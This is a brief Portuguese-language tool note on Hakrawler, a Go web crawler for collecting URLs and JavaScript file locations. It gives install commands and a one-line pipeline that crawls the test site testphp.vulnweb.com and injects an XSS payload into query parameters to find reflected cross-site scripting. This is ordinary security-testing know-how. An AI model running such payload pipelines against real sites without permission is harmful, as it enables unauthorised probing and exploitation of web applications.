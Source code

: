 # Hakrawler

Web crawler escrito em Goland para coletar URLs e locais de arquivos JavaScript.

Instalação:

```bash
go install github.com/hakluke/hakrawler@latest
mv ~/go/bin/hakrawler /usr/bin
```

ou

```bash
sudo apt install hakrawler # Kali Linux
```

Uso básico para procurar XSS em conjunto com o airixss:

```bash
echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```
